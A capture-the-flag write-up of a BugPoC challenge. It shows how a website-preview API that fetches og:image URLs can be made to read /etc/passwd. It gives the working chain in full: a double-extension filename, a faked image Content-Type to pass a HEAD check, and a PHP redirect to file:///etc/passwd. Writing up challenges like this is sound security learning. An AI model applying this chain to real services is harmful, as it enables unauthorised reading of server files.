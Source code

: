 # BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  
  <center><img src="1.png"></center>
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it to **imgData** .

 ![og:mage](2.png)

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, 🙌 It worked and  we leaked the etc/passwd

![etc/passwd](3.png)





<center> Thanks for Reading 😇 <center>

